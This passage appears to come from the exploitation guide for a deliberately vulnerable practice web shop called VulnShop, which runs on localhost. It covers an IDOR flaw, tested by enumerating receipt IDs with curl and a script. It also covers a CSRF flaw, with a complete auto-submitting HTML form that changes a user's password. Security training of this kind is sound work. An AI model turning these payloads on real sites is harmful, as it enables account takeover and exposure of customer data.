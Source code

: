 
## 🔓 3. Insecure Direct Object References (IDOR)

**Endpoint**: `/receipt/<order_id>`  
**Parameter**: `order_id` (URL parameter)

### Manual Testing
```bash
# Test different order IDs
curl http://localhost:5000/receipt/1
curl http://localhost:5000/receipt/2
curl http://localhost:5000/receipt/3
...
curl http://localhost:5000/receipt/100
```

### Automated Testing
```bash
# Custom script
python exploits/idor_exploit.py

# Burp Suite Intruder
# Use numbers payload 1-1000 on receipt ID parameter
```

### Business Impact
- Customer data exposure
- Privacy violations
- Competitive intelligence
- Regulatory compliance issues

---

## 🔓 4. Cross-Site Request Forgery (CSRF)

**Endpoint**: `/change_password`  
**Parameters**: `new_password`, `confirm_password`

### Attack Vector
Create malicious HTML page:
```html
<form action="http://localhost:5000/change_password" method="post">
    <input type="hidden" name="new_password" value="hacked123">
    <input type="hidden" name="confirm_password" value="hacked123">
    <input type="submit" value="Click for free money!">
</form>
<script>document.forms[0].submit();</script>
```

### Testing Steps
1. Login to VulnShop
2. Open `exploits/csrf_demo.html` in another tab
3. Click the attack button
4. Verify password was changed
